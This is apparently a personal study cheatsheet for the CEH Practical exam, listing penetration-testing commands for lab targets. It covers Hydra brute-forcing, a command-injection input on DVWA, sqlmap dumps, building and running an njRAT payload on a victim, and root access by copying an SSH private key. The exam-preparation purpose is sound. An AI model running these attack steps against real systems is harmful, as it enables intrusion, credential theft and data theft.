# CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
1.	Network Scanning & Vulnerability Assessment
•	Find Live hosts (nmap /netdiscover)
	Sudo nmap [IP address] – for exam (CEH Practical)
o	Sudo nmap –sC –sV –v –A –p– –O –T4 [IP Address range] – more aggressive deep scanning
o	Sudo nmap –sV –script vuln [IP Address] – finding vulnerabilities in a host (-oX save file)
o	Sudo nmap –sP 192.168.1.*:- when scanning a large network

•	Find open ports & services running on those ports (nmap)
	Sudo nmap –sC –sV –v –p– –T4 [IP Address range]
2.	Enumeration
•	ftp port 21 – used to transfer files between computers (file sharing)
o	check IP to see which is running ftp
	nmap –sC –p 21 [IP address]
o	ftp [IP] :- you need to bruteforce the password login credentials using hydra tool
	hydra –L username.txt –P password.txt [IP address] ftp (  the lists of password & usernames are given in the exam)
	login ftp [IP address]
o	enter password and username from the one that you brute forced
o	ftp>ls
o	ftp> get secret.txt (used to download the file into your local machine)
o	root@attacker:~#ls
o	root@attacker:~#cat secret.txt (to view the file contents)

•	SNMP port 161– used to monitor and manage network devices e.g. routers, switches, servers etc.
o	Nmap –sP [IP /24]
o	Nmap –sU [IP Address] (scan for UDP ports on the target machine) 
o	snmp-check [ip address] NB take note of the UDP port to listen to)
o	check NSE scripts online on nmap.org
o	nmap –sU –p 161(UDP port) –script=snmp-processes [IP Address] ( finding running process using nmap
o	msfconsole (start Metasploit to find valid strings)
o	msf5>search snmp
o	msf5>use auxiliary/scanner/snmp/snmp_login
o	msf5 auxiliary(scanner/snmp/snmp_login)> show options
o	msf5 auxiliary(scanner/snmp/snmp_login)>set RHOSTS [IP Address]
o	msf5 auxiliary(scanner/snmp/snmp_login)>exploit
•	SNMP check interfaces
o	nmap –sU –p 161(UDP port) –script=snmp-interfaces [IP Address] ( finding running process using nmap
o	snmp-check [IP address]
•	SMB Enumeration (SMB request services from server programs, it’s a protocol that allows apps on a computer read/write files)
o	Nmap [target IP] (smb running on port 445)
o	Nmap –p 445 --script smb-enum-shares [IP address] (enumerating files) shares files with details permissions
o	Connecting GUI method (smb://[IP] on web)
o	Nmap –p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating users)
o	Nmap –p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating groups)
o	Nmap –sC –sV –A –T4 –p445 [IP Address] (enumerating security levels)
o	Nmap –p 445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating services)
o	
•	Making an RDP session and Enumerate RDP service
o	Nmap [Ip address] port 3333 or 3389 is for RDP
o	Msfconsole
o	msf5> search rdp
o	msf5>use auxiliary/scanner/rdp/rdp_scanner
o	msf5 auxiliary(scanner/rdp/rdp_scanner)> set RHOSTS [target IP]
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>set RPORT 3333
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>exploit (detected rdp on ….. confirmed rdp is running)
o	hydra –L {path} –P{path} rdp://[IP address] –s 3333 (brute force passwords & save them)
o	root@attacker:~# xfreerdp /u:administrator /p:etcect /v:[ip]:3333(create an rdp session) 
•	Enumerate NetBIOS port 137(UDP: TCP)/138(UDP)/139(TCP) facilitates and allows computer to connect over the local network, access files & resources such as printers & files
o	Check ip first by ip a
o	Nmap –sP [IP address]
o	Nmap –sV --script nbstat.nse [IP address]

3.	Hacking Web Application & Android 
•	Wpscan
o	Wpscan in Kali Linux Wpscan –h will show you all the commands you can use
o	Wpscan –url [copy url http://192.168.0.1] --enumerate u  (u for users) 
o	Wpscan –url (or just –u for url) [copy url http://192.168.0.1] --enumerate u vp (vp for vulnerable plugins & u for users) 
o	Sudo Wpscan --password-attack xmlrpc –t 20 –U (usernames) –P (password list)  --url http://[IP] --random-user-agent (if necessary)- bruteforce for passwords
•	Sqlmap for sql injections–Using DVWA website
o	Go to command execution
o	Enter an IP address and submit :- [IP] | pwd to see the directory that I am
o	UserID enter 1
o	Open burp Suite
o	Go to terminal in parrot : sqlmap –r req.txt –dbs the file is in desktop
o	Sqlmap –r req.txt –D dvwa ( name of the data base )
o	Sqlmap –r req.txt –D dvwa --tables --columns   ( Details )
o	Sqlmap –r req.txt –D dvwa --dump (contents of the tables)
•	Burp Suite
o	Check on http requests and proxy (use this to save  cookies as req.txt)
•	Android Pentest (ADB) – a tool that bridge the communication between your device and computer ( use windows)
o	‘adb devices’ command will show you all the devices connected
o	adb connect [IP address]:5555 ( just give any port) 
o	adb shell ( you are in the device )
o	hit ls to see where you are in the device
o	cd sdcard/
o	cat secrete.txt
4.	Traffic Sniffing
•	Wireshark
Pcap analysis – Filtering packets
o	tcp.flags.syn
o	Follow streams red part is our request and the blue part is the server response
o	To see if there is a txt file – export object got to file, export object of http and save it 
(DOS, DDOS)
5.	Steganography
•	SNOW – for hiding and extracting hidden data from a text file
o	Open SNOW.EXE (NB. you have to write in uppercase)–C (compile) –m “this is the secret message” –p ‘’give the password any’’ Secret.txt (this is the secrete file) Hiddensecret.txt (is the file you want to be the output)
o	To extract the hidden file-: SNOW.EXE –C -p “given password any” Hiddensecret.txt and then hit enter.
•	OpenStego – for hiding and extracting hidden data from an image file
o	Open the OpenStego tool
o	There 2 options, Hiding data and extracting the secret
o	Follow options-: they are self-explanatory
o	When extracting data the same. In an exam you can be told to extract a file and you will find a key. Open hashes.com on browser and then retrieve the key
•	Covert – for hiding data in TCP/IP packet headers
o	Download covert_tcp file in parrot
o	Cd Downloads
o	Then ~/Downloads/Covert_tcp $ ls there will be 3 files covert_tcp, covert_tcp.c & secret.txt and then-: rm covert_tcp to remove it in parrot
o	Enter a command: cc –a covert_tcp covert_tcp.c 
o	  ./covert_tcp  –source [IP Addrr e.g. 192.168.1.1] ( source Ip)  –dest [IP Addrr] (destination IP) –source_port 9999 ( set any port) –dest_port 8888 –file secret.txt  -: this is done from source computer
o	./covert_tcp  –source [IP Addrr: 192.168.1.1] ( source Ip)  -source_port 8888 –server –file receive.txt (received file as)
6.	Cryptography – practice of securing information so that it’s only accessible to authorised users only. The goal is to protect sensitive information
•	HashMyfiles - calculating and comparing hashes of files
o	Open the tool 
o	Drag and drop the files to the HashMyfiles application
o	The change in the background colour may mean that the data has been tempered with or the data in the files is the same
•	Cryptool – encrypting and decrypting of hex data – by manipulating key length
o	Open the app and open file
o	Go to analysis and then symmetric – RC4, a window pops up change the key length maybe to 16bit depends with the qns
•	BCTextEncoder -  encoding and decoding text in file .hex 
o	Open the app
o	Enter passwords to encode the text to hex format
o	To decrypt the hash go to hashes.com online and paste the hash key
•	Crypto Forge – encrypting and decrypting the files
o	Select file & right click
o	Select encrypt. To decrypt the hash go to hashes.com online and paste the hash key
•	Veracrypt – hiding and encrypting the disk partitions
o	Open app and hit create volume option
o	Create an encrypted file container
o	Hidden volume then normal mode then next & select folder then C:\ then file name NB mouse hover hover
o	Go to  App, select mount to retrieve information of the hidden partition, this is do  
7.	RAT – Remote Access Trojans (ProRat & NjRAT) 
o	If you try and you are getting a response “no connection” it means maybe you have chosen the wrong machine to target or he port you have selected is the wrong one. Or the server is of different tool and you are using a different tool.
o	Using ProRat you open it using attacker machine using the IP address of the victim machine use the default port
o	Click connect and insert password. The password is provided if ProRat is used but if there is no password it means you use either HTTP RAT or NjRAT and you brute force.
o	Click on search files, copy the location and download the file.
o	You can make use of the File Manager option that is GUI
USING NjRAT
o	Using windows 11 as attacker and windows server as victim
o	Use the same default port and click start
o	Click on builder and provide the IP of the attacker machine on the host 
o	Click build and it will create server.exe file and save it e.g. on desktop
o	Share the file on the share folder (Desktop)then go to the server victim machine
o	Run the .EXE file 
o	Switch back to attacker ,machine and you can see the session has been opened 
o	You can right click on the session and use even RDP 
8.	Privilege escalation
o	ssh user1@[IP Addrr] –p(port) hit Y to agree and then enter the password you are provided or use hydra to brute force the password
o	If you hit the command whoami it shows you the user
o	 Sudo –L it shows you which users are there 
o	Go to the desired directory and do ls then it shows you the file, if you hit cat flag.txt you want to retrieve info in the file
o	Sudo –u user2 /bin/bash now you are logged in as user2 then go to the desired directory
o	This is horizontal privilege escalation
Escalate to root user
o	ls la shows all users
o	cd /root (access denied)
o	cd .ssh
o	ls
o	cat id_rsa you get ssh private key an copy 
o	nano id_rsa and then paste the key (in our local machine)
o	chmod 600 id_rsa (give permission to this file)
o	ssh root@[target IP] –p (port) –i  id_rsa
o	ls 
o	cat flag.txt
Nikto- nikto –h http://[IP Address]:80 (you can run on port 80)
